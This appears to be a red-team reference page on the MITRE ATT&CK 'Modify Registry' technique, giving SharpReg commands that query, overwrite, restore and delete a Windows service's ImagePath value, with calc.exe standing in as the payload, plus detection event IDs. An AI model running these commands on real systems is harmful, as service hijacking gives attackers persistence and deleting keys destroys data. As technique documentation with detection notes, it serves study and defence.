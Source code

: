  # [Modify Registry](https://attack.mitre.org/techniques/T1112/)

## Exploit Description:
Adversaries may interact with the Windows Registry to hide configuration information within Registry keys, remove information as part of cleaning up, or as part of other techniques to aid in persistence and execution.

## Exploit syntax:

```powershell
# Example of querying 

sharpreg query HKLM\SYSTEM\CurrentControlSet\services\gupdatem | poshgrep ImagePath 

# Here we change the key that we just queried above. We notated what it was before we make changes

sharpreg create "HKLM\SYSTEM\CurrentControlSet\Services\gupdatem"  "ImagePath" "C:\Windows\WinSxS\x86_microsoft-windows-calc_31bf3856ad364e35_10.0.14393.0_none_7b13d13279112b2e\calc.exe" EXPAND_SZ

# If necessary, you may change the key back to its original state:

sharpreg create "HKLM\SYSTEM\CurrentControlSet\Services\gupdatem" "ImagePath" "C:\Program Files\Google\Update\GoogleUpdate.exe /medsvc" EXPAND_SZ 

# Also possible to just outright delete a key

sharpreg delete HKLM\SYSTEM\CurrentControlSet\Services\gupdatem ImagePath

```

## Detection Technique:
* Investigate any reg command. Reg is for registry querying and manipulation
* Event IDs
    * 13: Registry value set
    * 4657: Registry is modified

## Resources
https://github.com/jnqpblc/SharpReg

https://malware.news/t/introducing-poshc2-v8-0/58825